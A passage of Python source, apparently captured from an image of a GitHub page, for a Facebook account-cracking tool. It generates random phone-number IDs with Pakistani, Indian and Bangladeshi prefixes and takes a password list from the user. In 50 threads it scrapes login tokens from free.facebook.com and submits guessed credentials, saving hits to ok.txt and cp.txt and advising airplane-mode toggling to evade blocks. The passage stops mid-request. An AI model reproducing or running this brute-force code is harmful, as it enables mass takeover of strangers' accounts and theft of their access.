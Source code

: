 
    jalan("     \33[37;41m\t  USE OUR COUNTRY CODE  \33[0;m")
    print('')
    jalan('\033[1;36m  PAK  CODES  :  \033[1;33m92301, \033[1;33m92302 ,\033[1;33m92303 ,\033[1;33m92305  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════')
    jalan('\033[1;36m  INDIA CODES :  \033[1;33m91778, \033[1;33m91930 ,\033[1;33m91902 ,\033[1;33m91712  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════')
    jalan('\033[1;36m  BD CODES    :  \033[1;33m88016, \033[1;33m88017 ,\033[1;33m88018 ,\033[1;33m88019  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════\n')
    code = input(' PUT CODE : ')
    print("")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[*] Enter Password : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;36m TOTAL IDS: '+tl)
        print('\033[1;36m THE PROCESS HAS BEEN STARTED')
        print('\033[1;31m USE AEROPLANE MOOD IN EVERY 5 MIN ')
        print('\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,